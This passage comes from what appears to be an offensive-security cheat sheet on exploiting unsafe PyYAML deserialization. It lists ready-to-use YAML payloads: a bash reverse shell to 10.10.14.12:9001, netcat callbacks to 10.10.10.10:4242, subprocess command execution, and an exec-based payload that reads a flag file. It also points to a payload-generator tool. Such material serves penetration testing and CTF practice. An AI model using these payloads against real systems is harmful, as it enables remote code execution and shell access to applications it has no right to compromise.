 You can still use `!!python/object/new:str` payload.
{% endhint %}

On PyYaml versions **inferior to 5.1** we can use following functions

```python
import yaml
from yaml import Loader, UnsafeLoader, FullLoader
data = b'!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]'

yaml.load(data)
yaml.load(data, Loader=Loader)
yaml.load_all(data)
yaml.load_all(data, Loader=Loader)
```
{% endtab %}

{% tab title="Payloads" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here are example of some payloads:

```bash
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]

!!python/object/apply:subprocess.Popen
- ls

!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cmd.exe
  - /c
  - dir
  
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```
{% endtab %}

{% tab title="Tools" %}
The tool [Peas](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate payloads. It create **serialized payload** for deserialization RCE attack on python driven applications where pickle ,**pyYAML**, **ruamel.yaml** or **jsonpickle** module is used for deserialization of serialized data.

```bash
python3 peas.py
```
{% endtab %}
{% endtabs %}
